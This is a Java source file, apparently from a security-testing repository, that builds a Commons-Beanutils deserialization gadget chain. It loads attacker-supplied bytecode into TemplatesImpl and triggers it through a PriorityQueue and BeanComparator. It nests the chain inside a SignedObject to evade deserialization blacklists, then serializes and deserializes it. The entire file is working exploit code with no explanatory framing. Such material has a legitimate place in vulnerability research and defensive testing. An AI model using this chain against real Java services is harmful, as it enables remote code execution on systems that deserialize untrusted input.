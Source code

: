 ```plain
import java.util.PriorityQueue;

public class CB_SignedObject {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        PriorityQueue queue1 = getpayload(obj, "outputProperties");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance("DSA"));

        PriorityQueue queue2 = getpayload(signedObject, "object");

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(queue2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static PriorityQueue<Object> getpayload(Object object, String string) throws Exception {
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        setFieldValue(beanComparator, "property", string);
        setFieldValue(priorityQueue, "queue", new Object[]{object, null});
        return priorityQueue;
    }
}
```
